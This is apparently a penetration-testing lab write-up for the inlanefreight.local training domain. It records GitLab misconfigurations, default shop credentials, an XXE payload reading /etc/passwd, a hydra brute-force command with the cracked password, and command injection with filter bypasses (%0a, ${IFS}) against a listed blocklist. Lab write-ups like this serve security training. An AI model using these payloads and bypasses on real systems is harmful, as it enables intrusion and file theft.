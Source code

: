 ### 🦊 gitlab.inlanefreight.local - GitLab Instance
```bash
# Misconfiguration assessment:
- User registration enabled (no admin approval)
- Public project access available
- shopdev2.inlanefreight.local project discovered

# Security issues:
- No domain restrictions on registration
- Sensitive project exposure
- Development environment discovery
```

### 🛒 shopdev2.inlanefreight.local - Shopping Cart
```bash
# Authentication testing:
admin:admin  # Successful login (weak credentials)

# XXE vulnerability in checkout process:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
<root>
    <subtotal>undefined</subtotal>
    <userid>&xxetest;</userid>
</root>

# Result: Local file read capability
```

### 📊 monitoring.inlanefreight.local - Monitoring Console
```bash
# Authentication brute force:
hydra -l admin -P passwords.txt monitoring.inlanefreight.local http-post-form "/login.php:username=admin&password=^PASS^:Invalid Credentials!"
# Result: admin:12qwaszx

# Restricted shell analysis:
Available commands: ls, cat, whoami, date, help, clear, reboot, cd, mv, rm, rmdir, touch, connection_test

# Command injection in connection_test:
GET /ping.php?ip=127.0.0.1%0a'i'd
# Bypass: %0a (newline) + single quotes around commands

# Filter analysis:
Blocked: &, |, ;, \, /, space, whoami, echo, rm, etc.
Bypass: ${IFS} for spaces, %0a for command separation

# Network discovery:
IP addresses: 10.129.203.101 (external), 172.16.8.120 (internal)
# Pivot opportunity into internal network
```
